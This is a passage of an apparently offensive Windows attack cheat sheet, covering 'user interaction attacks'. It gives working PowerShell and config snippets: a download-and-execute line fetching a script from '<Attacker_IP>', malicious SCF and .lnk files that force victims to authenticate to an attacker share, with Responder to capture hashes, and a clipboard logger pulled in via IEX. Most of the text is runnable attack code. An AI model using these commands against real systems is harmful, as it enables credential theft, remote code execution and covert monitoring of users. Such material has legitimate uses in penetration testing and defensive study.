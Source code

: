 ## 7. Additional Techniques

### User Interaction Attacks

#### Monitor Process Command Lines
```powershell
# Monitor for new processes
while($true) {
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}

# Execute remotely
IEX (iwr 'http://<Attacker_IP>/procmon.ps1')
```

#### SCF File Attack
```cmd
# Step 1: Create malicious SCF file (@Inventory.scf)
[Shell]
Command=2
IconFile=\\<Attacker_IP>\share\legit.ico
[Taskbar]
Command=ToggleDesktop

# Step 2: Start Responder
sudo responder -wrf -v -I tun0

# Step 3: Place file in accessible share
```

#### Malicious .lnk File
```powershell
# Create malicious .lnk file
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<Attacker_IP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Clipboard Monitoring
```powershell
# Monitor clipboard activity
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```
